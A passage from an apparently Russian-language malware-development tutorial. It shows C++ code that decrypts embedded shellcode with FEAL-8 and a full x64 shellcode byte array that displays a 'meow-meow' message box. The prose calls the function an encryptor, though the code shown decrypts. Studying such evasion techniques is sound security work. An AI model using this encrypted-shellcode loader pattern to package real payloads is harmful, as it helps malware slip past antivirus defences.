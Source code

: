 ```cpp
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_decrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes with padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_decrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}
```

Первая функция отвечает за шифрование предоставленного шелл-кода (`meow-meow` messagebox в нашем случае) с использованием шифрования `FEAL-8`. Она обрабатывает шелл-код в `64-битных` блоках (`8-байтовых`), и если есть какие-либо оставшиеся байты, которые не помещаются в полный блок, она дополняет их `0x90` (`NOP`) перед шифрованием.

Наконец, функция `main` демонстрирует шифрование, дешифрование и выполнение шелл-кода с использованием `FEAL-8`.

Как обычно, я использовал полезную нагрузку `meow-meow` messagebox:

```cpp
unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```
